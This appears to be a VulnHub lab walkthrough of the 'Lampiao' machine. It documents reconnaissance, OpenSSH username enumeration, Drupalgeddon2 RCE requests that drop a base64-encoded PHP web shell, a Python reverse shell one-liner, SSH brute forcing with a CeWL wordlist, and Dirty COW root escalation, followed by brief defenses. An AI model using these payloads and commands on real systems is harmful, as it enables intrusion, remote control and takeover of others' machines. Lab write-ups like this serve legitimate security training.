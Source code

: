 ## Reconnaissance

Discover the IP using arp-scan <br>
```
$ arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed using nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
Also, there is an interesting file ```CHANGELOG.txt``` which exposes the accurate version used under 7.x

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

On accessing the Drupal site, we can see that the there are two articles written by two different users ```tiago``` and ```Eder``` which might be helpful if we bruteforce SSH service. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/username-lamp.png">
</p>

Recently there was an [exploit](https://www.exploit-db.com/exploits/45233/) released for OpenSSH 2.3 < 7.7 which checks if the username is valid or not. We can use that to verify if these two are valid and bruteforce if needed. 

```
$  python 45233.py --port 22 --username Eder 192.168.0.107
Eder is not a valid user!
$ python 45233.py --port 22 --username tiago 192.168.0.107
tiago is a valid user!
```

## Exploitation

### Using Drupal 

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version 7.54 is vulnerable to RCE.

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a jailed environment with a lot of restrictions.

We can get a reverse shell using Python with ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

Reverse shells generally don't have tty enabled and we need to upgrade our shell so that we can run commands like `sudo` `su` `ssh`

To enable tty on a jailed shell, we can run, ```python -c 'import pty; pty.spawn("/bin/sh")'```

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/tty-no-tty.png">
</p>

### Using SSH

Since we know that ```tiago``` is a valid user name for SSH. We can run a bruteforce on the SSH server to check if it uses a weak password. 

Running [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt) didn't find any valid passwords. Let us try one more time by generating wordlists using the article written by tiago. 

```
$ ./cewl.rb -d 2 -w lampioa.txt http://192.168.0.107:1898/\?q\=node/1
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```
This generates a wordlist of 835 unique passwords. On bruteforcing, we get a valid password Virgulino for the user tiago.

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/success-brute.png">
</p>


## Privilege Escalation

Now that we have shell access, we need to escalate this to ```root``` to read the flag. 
Let us run ```linux-exploit-suggester``` to check if the kernel has any publicly available exploits. 

```
www-data@lampiao:/tmp$ wget --quiet https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
Available information:
Kernel version: 4.4.0
Architecture: i686
<snipped>
Possible Exploits:
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
 <snipped>
 ```
 
Let us pull the exploit and try it. It is important that we compile with the specified flags else we might get warnings, errors during compilation time. 

Running the dcow exploit, rewrites the ```root``` password to ```dirtyCowFun``` in the ```/etc/passwd``` file
We can ssh as the root user with the modified password. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/root-lamp.png">
</p>

## Defense 

[1] Firewall/IDS/IPS rule to detect signature of druppalgeddon and block it. <br>
[2] Disable access to sensitive files like CHANGELOG.txt. <br>
[3] Limit the ACL for uploading, executing files in the OS level or Server level. 
[4] Implement services like fail2ban to prevent SSH bruteforce. 

## References 

[1] https://netsec.ws/?p=337 <br>
[2] https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
